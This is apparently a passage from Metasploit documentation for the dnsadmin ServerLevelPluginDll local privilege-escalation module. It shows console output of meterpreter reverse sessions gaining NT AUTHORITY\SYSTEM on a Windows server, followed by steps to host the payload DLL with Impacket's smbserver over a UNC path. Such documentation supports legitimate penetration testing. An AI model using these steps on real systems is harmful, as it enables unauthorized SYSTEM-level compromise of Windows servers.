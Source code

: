 ```
Server username: NT AUTHORITY\SYSTEM
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x64/windows  RAPID7\normal @ WIN-M5JU6L5RA9L        0.0.0.0:0 -> 172.17.169.123:4444 (172.17.169.123)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN-M5JU6L5RA9L  0.0.0.0:0 -> 172.17.169.123:7788 (172.17.169.123)

msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer        : WIN-M5JU6L5RA9L
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : RAPID7
Logged On Users : 12
Meterpreter     : x64/windows
meterpreter > 
```

### Windows Server 2019 Standard x64, specifying a UNC path for ServerLevelPluginDll
The easiest way to set this up is to Impacket's `smbserver`. You can find the source code for Impacket at https://github.com/SecureAuthCorp/impacket.
Download the latest release and untar it, then `cd` into the new directory that is created. You should see a file named `setup.py`. Run the command
`sudo python3 setup.py install` and it will install Impacket for you. Once this is done, navigate to the `examples` directory and follow the following steps:

```
 ~/Desktop/impacket-0.9.21/examples  sudo python3 smbserver.py -smb2support -ip 172.17.168.195 test /home/gwillcox/.msf4/local/
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

